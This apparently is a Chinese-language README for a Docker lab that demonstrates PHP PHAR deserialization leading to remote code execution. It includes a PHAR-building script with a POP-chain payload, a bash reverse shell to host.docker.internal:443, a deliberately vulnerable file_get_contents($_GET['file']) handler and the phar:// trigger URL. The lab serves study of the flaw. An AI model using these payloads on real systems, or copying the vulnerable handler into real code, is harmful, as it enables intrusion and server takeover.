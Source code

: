 # PHAR Deserialization & Reverse Shell Exploitation in PHP (Docker Test)

這篇筆記整理了從 PHAR 反序列化漏洞原理，到在 Docker 測試環境下成功觸發 reverse shell 的完整流程。

---

## 1. 漏洞背景

PHAR 文件可以包含序列化的 metadata，PHP 在處理 **phar://** 協議時，如果對 PHAR 執行文件操作（例如 `file_get_contents`、`copy` 等），就會自動 **反序列化 metadata**。若 metadata 中包含可被魔法方法利用的 POP chain，攻擊者就能達成 RCE（Remote Code Execution）。

### 觸發條件

1. Web 應用允許上傳 PHAR 文件（或使用 PHAR polyglot）。
2. PHP 有呼叫文件操作函數 (`file_get_contents`, `file_exists`, `copy`...)。
3. 存在可利用的 class（包含 magic method，如 `__destruct` 或 `__wakeup`）。

---

## 2. 漏洞原理
以下程式碼表示模擬一些可能會出現在常用框架中的第三方函式庫
```php
class PDFGenerator {
    public $callback;
    public $fileName;

    function __destruct() {
        call_user_func($this->callback, $this->fileName);
    }
}
```
`__destruct()` 中使用 `call_user_func()` 呼叫 `$callback`，並傳 `$fileName`。

我們可以透過 `PHAR metadata` 修改這兩個屬性，將 `$callback` 指向 `system`，`$fileName` 設置命令。

---

## 3. 攻擊流程
### 3.0 環境架設
1. 安裝 docker (略)

2. clone 下這一個 repo

3. `docker build -t poc_phar_ssrf . ; docker run -p 8080:80 poc_phar_ssrf`
（ 請確認 8080 port 是否被佔用，若被佔用請改其他 port ）

4. 開啟 http://127.0.0.1:8080

### 3.1 建立 PHAR 文件

```php
<?php
class PDFGenerator {}

// POP chain payload
$evil = new PDFGenerator();
$evil->callback = "system";
$evil->fileName = "bash -c 'bash -i >& /dev/tcp/host.docker.internal/443 0>&1' &";

// 刪除舊檔案
@unlink("evil.phar");

// 建立 PHAR
$phar = new Phar("evil.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->addFromString("dummy.txt", "dummy");
$phar->setMetadata($evil);
$phar->stopBuffering();
```
指令：
`php -d phar.readonly=0 evil_phar_gen.php`
php 中，phar 預設是readonly的


## 3.2 觸發反序列化
- PHP 端範例：
```php
<?php
$file = $_GET['file'];
echo file_get_contents($file);
```

- 使用 GET 參數：
`http://example.com/index.php?file=phar:///var/www/html/uploads/evil.phar/dummy.txt`

訪問時會自動反序列化 PHAR metadata，觸發 `__destruct()`。

請事先開啟 `nc` 監聽對應 port
`nc -lv 443` ( mac，不確定其他操作系統)

---
## 4. Docker 測試注意點

- **host.docker.internal**：在 macOS / Windows Docker Desktop 可用；Linux 可以用預設的 `127.17.0.1`。
- **stdout / stdin 卡住問題**：
  - `bash -i` 在 web server 下容易卡住，使用背景化 `&` 或 `nohup` 解決。 
  - 範例 payload：
    ```php
    $evil->fileName = "bash -c 'bash -i >& /dev/tcp/host.docker.internal/443 0>&1' &";
    ```

---

## 5. 完整流程總結

1. 確認目標 PHP 有文件操作函數。
2. 找到可利用 class（有 magic method 可被反序列化觸發）。
3. 建立 PHAR 文件：
   - 添加 dummy.txt
   - 設置 metadata 為可控制的 class 物件
4. 訪問 `phar://` URL，觸發反序列化。
5. 使用背景化命令或 `nohup` 避免 web server 阻塞。
6. 測試 reverse shell 連線。

---

## 6. 難點
- 一開始不理解POP (Property Oriented Programming) 的原理不知道是需要有相應的 class 而不是任意class都可以執行 [這篇文章](https://pentest-tools.com/blog/exploit-phar-deserialization-vulnerability) 看懂之後才知道 POP 的確切機制以及利用方法
- 建立這個reverse shell的難點最大的其實是由於`call_user_func`無法持續執行互動式操作（原理待補充）所以要加上 `&` 使其能夠在背景執行（但是網頁會一直loading直到reverse shell被關閉 而且就算網頁關閉reverse shell任然可以執行

## 7. 參考資料
https://ithelp.ithome.com.tw/articles/10279849
https://pentest-tools.com/blog/exploit-phar-deserialization-vulnerability
https://www.keysight.com/blogs/en/tech/nwvs/2020/07/23/exploiting-php-phar-deserialization-vulnerabilities-part-1
https://www.anquanke.com/post/id/162506
https://forum.butian.net/share/2678